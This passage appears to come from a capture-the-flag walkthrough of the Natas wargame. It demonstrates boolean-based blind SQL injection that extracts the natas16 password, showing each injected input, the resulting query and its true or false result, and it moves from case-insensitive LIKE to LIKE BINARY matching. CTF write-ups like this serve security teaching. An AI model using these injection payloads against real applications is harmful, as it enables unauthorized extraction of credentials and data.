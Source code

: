 So now lets test the password lenght.  

```
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false  
```

so far all the passwords had a lenght of 32, so lets that that.  

```
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Result : true  
```

now lets test the actual password  
first verify with the username  

```
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Result : false  
```

```
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Result : true  
```

So we know this works. Now lets try the password.  

```
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#
Result : true
```

but if we try  

```
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#
Result : true
```

this also works. This is because LIKE is case insensitive, we should use LIKE BINARY.  

```
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#
Result : false  
```
